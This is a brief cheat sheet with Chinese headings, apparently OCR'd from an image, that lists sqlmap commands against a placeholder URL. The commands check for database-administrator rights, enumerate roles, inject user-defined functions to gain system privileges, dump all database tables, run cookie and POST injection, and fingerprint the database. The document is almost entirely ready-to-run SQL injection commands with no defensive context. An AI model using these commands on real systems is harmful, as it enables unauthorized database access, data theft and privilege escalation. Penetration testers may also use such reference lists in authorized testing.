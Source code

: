 

#是否是数据库管理员

```
sqlmap -u "http://XXXXXXX?id=1" --is-dba -v 1 
```



#枚举数据库用户角色

```
sqlmap -u "http://XXXXXXX?id=1" --roles 
```



 #导入用户自定义函数（获取系统权限！）

```
sqlmap -u "http://XXXXXXX?id=1" --udf-inject
```



 #列出当前库所有表

```
sqlmap -u "http://XXXXXXX?id=1" --dump-all --exclude-sysdbs -v 0
```



 #union 查询表记录

```
sqlmap -u "http://XXXXXXX?id=1" --union-cols
```



 #cookie 注入

```
sqlmap -u "http://XXXXXXX?id=1" --cookie "COOKIE_VALUE"
```



#获取 banner 信息

```
sqlmap -u "http://XXXXXXX?id=1" -b 
```



 #post 注入

```
sqlmap -u "http://XXXXXXX?id=1" --data "id=3"
```



#指纹判别数据库类型

```
sqlmap -u "http://XXXXXXX?id=1" -v 1 -f 
```

